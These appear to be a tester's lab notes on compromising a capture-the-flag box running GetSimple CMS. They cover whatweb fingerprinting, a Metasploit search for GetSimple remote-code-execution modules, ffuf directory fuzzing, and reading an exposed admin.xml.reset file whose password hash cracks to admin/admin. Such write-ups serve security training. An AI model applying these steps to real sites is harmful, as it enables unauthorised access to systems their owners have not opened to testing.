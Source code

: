 Port 80 appears to be running

CMS - GetSimple CMS 

version 3.3.15
http://10.129.6.57/data/cache/2a4c6447379fba09620ba05582eb61af.txt

Logs invalid logins!!
http://10.129.201.192/data/other/logs/failedlogins.log
s
sudo sh -c 'echo "10.129.201.192 gettingstarted.htb" >> /etc/hosts'

![[/2. Recon/Images/Pasted image 20241007141415]]


![[Pasted image 20241007141415.png]]

```
whatweb http://10.129.201.192
```

```
┌──(paige㉿PH-LT02)-[/home/paige]
└─PS> whatweb http://10.129.201.192                                                                                
http://10.129.201.192 [200 OK] AddThis, Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.201.192], Script[text/javascript], Title[Welcome to GetSimple! - gettingstarted]    
```

![[Screenshot_2024-10-07_11_56_34.png]]

## Metasploit

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![[Pasted image 20241007144838.png]]

Which allows us to grab the first capture flag
![[Pasted image 20241007145121.png]]
## Fuzzing

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.129.201.192/FUZZ -t 100 -ic -c 
```
Output

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.201.192/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

data                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 20ms]
admin                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 18ms]
plugins                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
theme                   [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 19ms]
backups                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 19ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 19ms]
:: Progress: [220546/220546] :: Job [1/1] :: 4065 req/sec :: Duration: [0:00:47] :: Errors: 0 ::

### Passwords

Tried the following credentials below to gain access to admin after determining the hash.

```
┌──(paige㉿PH-LT02)-[~]
└─$ curl -s  http://10.129.201.192/data/users/admin.xml.reset | xmllint --format - 
<?xml version="1.0" encoding="UTF-8"?>
<item>
  <USR>admin</USR>
  <NAME/>
  <PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
  <EMAIL>admin@gettingstarted.com</EMAIL>
  <HTMLEDITOR>1</HTMLEDITOR>
  <TIMEZONE/>
  <LANG>en_US</LANG>
</item>```
```

http://gettingstarted.htb/admin

| username                 | password                                 |
| ------------------------ | ---------------------------------------- |
| admin                    | admin                                    |


